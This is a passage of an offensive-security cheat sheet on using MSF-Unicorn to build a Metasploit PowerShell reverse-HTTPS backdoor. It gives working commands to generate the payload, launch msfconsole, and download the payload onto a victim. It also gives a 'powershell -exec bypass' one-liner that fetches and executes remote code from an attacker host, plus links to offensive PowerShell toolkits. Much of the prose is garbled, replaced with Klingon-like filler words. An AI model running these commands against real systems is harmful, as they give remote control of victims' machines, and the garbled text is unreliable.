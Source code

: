 ### MSF-Unicorn

[https://github.com/trustedsec/unicorn](https://github.com/trustedsec/unicorn)

unicorn vItlhutlh metasploit backdoor powershell version vItlhutlh.
```
python unicorn.py windows/meterpreter/reverse_https 10.2.0.5 443
```
Qapla' msfconsole vItlhutlh!:

```
msfconsole -r created_resource.rc
```

vItlhutlh created_resource.rc jatlhqa'!
```
msfconsole -r unicorn.rc
```
Start a web server serving the _powershell\_attack.txt_ file and execute in the victim:

```
Invoke-WebRequest -Uri http://<attacker_ip>:<port>/powershell_attack.txt -OutFile C:\temp\powershell_attack.txt
```

This command will download the _powershell\_attack.txt_ file from the attacker's web server and save it to the victim's machine in the _C:\temp_ directory.
```
powershell -exec bypass -c "iwr('http://10.2.0.5/powershell_attack.txt')|iex"
```
**QaD jImej**

## vItlhutlh

[PS>Attack](https://github.com/jaredhaight/PSAttack) PS console vItlhutlh offensive PS modules preloaded (cyphered)\
[https://gist.github.com/NickTyrer/92344766f1d4d48b15687e5e4bf6f9](https://gist.github.com/NickTyrer/92344766f1d4d48b15687e5e4bf6f93c)[\
WinPWN](https://github.com/SecureThisShit/WinPwn) PS console vItlhutlh offensive PS modules proxy detection (IEX)

## References

* [https://highon.coffee/blog/reverse-shell-cheat-sheet/](https://highon.coffee/blog/reverse-shell-cheat-sheet/)
* [https://gist.github.com/Arno0x](https://gist.github.com/Arno0x)
* [https://github.com/GreatSCT/GreatSCT](https://github.com/GreatSCT/GreatSCT)
* [https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/](https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/)
* [https://www.hackingarticles.in/koadic-com-command-control-framework/](https://www.hackingarticles.in/koadic-com-command-control-framework/)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
* [https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/](https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/)
​

